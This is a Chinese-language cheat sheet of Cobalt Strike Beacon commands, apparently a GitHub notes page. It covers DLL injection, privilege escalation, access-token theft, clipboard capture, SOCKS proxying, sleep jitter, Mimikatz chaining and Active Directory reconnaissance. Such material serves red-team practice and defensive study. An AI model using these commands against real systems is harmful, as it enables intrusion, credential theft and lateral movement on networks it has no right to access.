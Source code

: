 ```sh
dllinject pid dllpath                       #反射dll进程注入
dllload pid dllpath                         # 使用LoadLibrary函数进行dll注入
elevate [exploit] [listener]                # elevate 提权并生成一个高权限会话
runasadmin [exploit] [command] [args]       # runasadmin 提权后执行命令
execute [program] [arguments]               # execute 执行程序（无回显）
execute-assembly .netpath [arguments]       # 注：就是普通的内存加载执行.net程序
ssh [target:port] [user] [/path/to/key.pem]
steal_token [pid] # steal_token 从进程中窃取访问令牌  # 注：可以使用getuid命令会打印你的当前令牌,rev2self恢复的原始令牌。
socks 55409 SOCKS5 enableNoAuth "" "" disableLogging  # 4.7后
clipboard # 获取剪贴板内容
token-store steal [pid,…] <OpenProcessToken access mask> # token-store steal 5600，6116，6332，6840 https://cn-sec.com/archives/1592893.html
token-store use [id]
token-store steal-and-use [pid] <OpenProcessToken access mask>
token-store show
token-store remove [id,…]
token-store remove-all
sleep 2d 13h 45m 8s 30j，它的意思是"睡眠2天13小时45分钟8秒，带有30%的抖动"
# 增加了一个新的侵略者功能，bsleepu，其工作方式与此相同
# 在一个Mimikatz调用中链接多个命令
mimikatz standard::coffee;standard::coffee
file_browser              # 打开文件浏览器。
process_browser           # 打开进程浏览器。
```

[转发上线](####转发上线)

### shell/run/execute/powershell/powerpick 区别

| cmd                                  | example                                                                 | Desc                                     |
| ------------------------------------ | ----------------------------------------------------------------------- | ---------------------------------------- |
| run ipconfig                         | 等于 run cmd ipconfig                                                   | 从 cmd 启动程序                          |
| shell ipconfig                       | 等于 shell ipconfig                                                     | 直接启动程序                             |
| execute [program] [arguments]        |                                                                         | 后台运行且没有回显                       |
| powerpick [commandlet] [arguments]   |                                                                         | 可以不通过调用 powershell.exe 来执行命令 |
| powershell [commandlet] [arguments]  |
| powershell-import [/path/script.ps1] | powershell-import /root/Desktop/powerview.ps1<br> powershell Get-HostIP |

### Net View

```sh
Beacon命令行：net view <DOMAIN>。
net view命令，会显示指定计算机共享的域、计算机和资源的列表。在Cobalt Strike主界面中选择一个Beacon，进入交互模式，输入“net view”命令，如图所示。
net computers：通过查询域控制器上的计算机账户列表来查找目标。
net dclist：列出域控制器。
net domain_trusts：列出域信任列表。
net group：枚举自身所在域控制器中的组。“net group \\target”命令用于指定域控制器。“net group \\target <GROUPNAME>”命令用于指定组名，以获取域控制器中指定组的用户列表。
net localgroup：枚举当前系统中的本地组。“net localgroup \\target”命令用于指定要枚举的远程系统中的本地组。“net localgroup \\target <GROUPNAME>”命令用于指定组名，以获取目标机器中本地组的用户列表。
net logons：列出登录的用户。
net sessions：列出会话。
net share：列出共享的目录和文件。
net user：列出用户。
net time：显示时间。
```
